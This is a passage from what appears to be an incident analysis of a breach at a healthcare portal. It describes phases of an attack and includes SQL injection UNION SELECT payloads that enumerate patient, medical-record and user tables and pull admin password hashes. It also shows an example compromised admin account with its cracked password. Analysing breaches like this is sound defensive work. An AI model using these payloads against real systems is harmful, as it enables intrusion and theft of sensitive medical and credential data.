 ```mermaid
        string first_name
        string last_name
        date date_of_birth
        string address
        string phone
    }
```

**Sensitive Tables Found**:
```sql
-- Via SQL Injection
' UNION SELECT 
    COUNT(*), 'patients', NULL, NULL, NULL 
FROM patients 
UNION SELECT 
    COUNT(*), 'medical_records', NULL, NULL, NULL 
FROM medical_records
UNION SELECT 
    COUNT(*), 'users', NULL, NULL, NULL 
FROM users--

-- Results revealed:
-- patients: 2,500,000 records
-- medical_records: 8,750,000 records  
-- users: 5,200 records (including 42 admins)
```

### Phase 4: Privilege Escalation (Day 21)

**Admin Credential Theft**:

The attacker extracted password hashes using SQL injection:

```sql
' UNION SELECT 
    user_id, email, password_hash, role, is_admin::text
FROM users 
WHERE is_admin = true--
```

**Extracted Admin Accounts** (42 accounts):
- 38 accounts: Strong passwords, MFA enabled
- 4 accounts: Weak passwords, no MFA
- 1 account: Reused password from previous breach

**Compromised Account**:
```
Email: admin.legacy@healthportal.com
Role: Database Administrator
Created: 2018 (6 years old, forgotten account)
Password: HealthPortal2018! (cracked in 4 hours via rainbow table)
MFA: Not enrolled
Last Login: 2019 (dormant account)
```
